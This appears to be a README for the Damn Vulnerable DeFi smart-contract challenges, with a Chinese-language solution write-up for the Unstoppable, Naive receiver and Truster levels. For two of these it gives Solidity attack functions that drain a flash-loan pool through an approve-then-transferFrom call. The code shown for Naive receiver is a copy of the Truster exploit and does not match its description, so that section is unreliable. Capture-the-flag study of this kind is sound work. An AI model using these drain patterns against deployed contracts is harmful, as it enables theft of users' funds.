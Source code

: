 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

## Solution

### 1.Unstoppalble

该挑战的目标是停止pool合约的闪电贷功能。
可以发现pool合约在闪电贷前有一条安全检查assert(poolBalance == balanceBefore)用以检测池中记录的DVT和代币balanceof()返回的是否一致，因此只需要给pool合约存点代币即可完成该挑战。

### 2.Naive receiver
该挑战的目标是耗尽闪电贷Receiver里的ETH。

可以发现pool在闪电贷中并没有指定borrower==msg.sender，也没做检查，因此可以代receiver发起闪电贷，直至耗尽Receiver的ETH
我实现了一个攻击函数来发起攻击直至耗尽receiver的ETH，这样就实现了挑战中的附加条件（在一个交易内耗尽合约ETH）。

    function attack() public {
    uint256 amount = IToken(token).balanceOf(pool);
    
            IPool(pool).flashLoan(0, msg.sender, token, abi.encodeWithSignature(
                    "approve(address,uint256)",
                    address(this),
                    amount
                ));
    
            IToken(token).transferFrom(pool, msg.sender, amount);
        }


### 3.Truster
该挑战的目标是通过一个交易将一个闪电贷pool里的DVT全部提取出来。

可以发现这个pool直接使用target.functionCall(data)调用外部函数，攻击者可以调用任意函数。因此攻击者可以通过闪电贷传入代币的approve函数签名作为data，aaprove pool所有DVT给自己，再将代币提取出来,即可完成目标。


    function attack() public {
    uint256 amount = IToken(token).balanceOf(pool);
            IPool(pool).flashLoan(0, msg.sender, token, abi.encodeWithSignature(
                    "approve(address,uint256)",
                    address(this),
                    amount
                ));
            IToken(token).transferFrom(pool, msg.sender, amount);
        }
